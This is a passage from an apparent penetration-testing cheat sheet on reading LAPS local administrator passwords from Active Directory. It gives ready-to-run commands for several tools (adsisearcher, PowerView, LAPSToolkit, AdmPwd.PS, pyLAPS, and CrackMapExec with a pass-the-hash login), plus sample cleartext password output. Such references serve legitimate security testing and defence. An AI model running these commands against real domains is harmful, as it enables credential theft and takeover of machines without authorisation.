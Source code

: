 > The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

 - From Windows:

   * adsisearcher (native binary on Windows 8+)
       ```powershell
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
       ```

   * [PowerView](https://github.com/PowerShellEmpire/PowerTools)
       ```powershell
       PS > Import-Module .\PowerView.ps1
       PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
       ```

   * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
       ```powershell
       $ Get-LAPSComputers
       ComputerName                Password                                 Expiration         
       ------------                --------                                 ----------         
       example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

       $ Find-LAPSDelegatedGroups
       $ Find-AdmPwdExtendedRights
       ```

   * Powershell AdmPwd.PS
       ```powershell
       foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
       ```

 - From linux:

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
       ```bash
       # Read the password of all computers
       ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       # Write a random password to a specific computer
       ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       ```
     
   * [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
       ```bash
       crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
       ```
